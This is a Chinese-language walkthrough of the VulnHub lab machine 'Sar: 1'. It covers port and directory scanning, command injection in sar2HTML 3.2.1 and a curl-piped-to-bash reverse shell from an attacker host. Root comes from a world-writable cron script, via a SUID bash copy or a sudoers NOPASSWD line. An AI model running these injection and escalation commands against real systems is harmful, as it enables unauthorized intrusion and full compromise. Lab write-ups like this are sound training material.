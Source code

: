 # Sar: 1

2024-5-20 https://www.vulnhub.com/entry/sar-1,425/

difficulty: easy

## IP

192.168.5.30

## Scan

Open Port -> 80

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

只有 80 web 服务，直接干。gobuster 扫描：

```
http://192.168.5.30/index.html           (Status: 200) [Size: 10918]
http://192.168.5.30/robots.txt           (Status: 200) [Size: 9]
http://192.168.5.30/phpinfo.php          (Status: 200) [Size: 95387]
```

http://192.168.5.30/robots.txt 显示 sar2HTML

继续访问 http://192.168.5.30/sar2HTML Sar2html 可以将 sar 程序执行的二进制结果数据转成图形的 HTML 格式

看到左上角版本为 sar2html Ver 3.2.1，寻找是否有对应的漏洞 exp，发现 https://www.exploit-db.com/exploits/47204

进行漏洞利用：

```
curl -G --data-urlencode 'plot=;pwd' http://192.168.5.30/sar2HTML/index.php
```

可以看到 Select Host 中出现了 /var/www/html/sar2HTML，漏洞存在证明成功

直接是进行反弹 shell，kali 上监听 8888：

```
curl -G --data-urlencode 'plot=;curl http://192.168.5.3/5.3/8888.sh | bash' http://192.168.5.30/sar2HTML/index.php
```

得到了反弹的 shell，先升级下 tty，目标上有 python3.

/etc/crontab 发现了自定义的计划任务：

```
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

```
www-data@sar:/var/www/html$ cat finally.sh
#!/bin/sh

./write.sh

www-data@sar:/var/www/html$ cat write.sh
#!/bin/sh

touch /tmp/gateway

```

write.sh 具有 777 的权限，可以直接修改得到 root 权限：

```
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' >> write.sh
或
echo '/bin/echo "www-data ALL=(ALL)NOPASSWD:ALL" >> /etc/sudoers' > write.sh
```

等待 5 分钟，www-data 就有了免密的 sudo 权限，直接 sudo su 切换到 root 用户：

```
root@sar:~# cat root.txt
66f93d6b2ca96c9ad78a8a9ba0008e99
root@sar:~# id
uid=0(root) gid=0(root) groups=0(root)
```
